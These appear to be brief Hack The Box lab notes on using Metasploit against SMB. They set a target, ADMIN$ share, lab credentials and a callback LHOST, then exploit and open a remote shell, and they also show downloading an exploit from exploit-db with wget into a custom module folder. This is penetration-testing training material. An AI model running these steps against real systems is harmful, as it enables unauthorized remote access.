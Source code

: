 
Start
```shell-session
sudo msfconsole
```

Searching
```shell-session
search smb
```

Use
```shell-session
use 56
```

Options
```shell-session
options
```

Setting options
```shell-session
set RHOSTS 10.129.180.71
```
```shell-session
set SHARE ADMIN$
```
```shell-session
set SMBPass HTB_@cademy_stdnt!
```
```shell-session
set SMBUser htb-student
```
```shell-session
set LHOST 10.10.14.222
```

Exploit
```shell-session
exploit
```

Create shell
```shell-session
shell
```



Download exploit from online

wget https://www.exploit-db.com/download/<exploit-id> -O exploit.rb

mv exploit.rb /usr/share/metasploit-framework/modules/exploits/custom/


msfconsole
reload_all

search custom

use exploit/custom/exploit


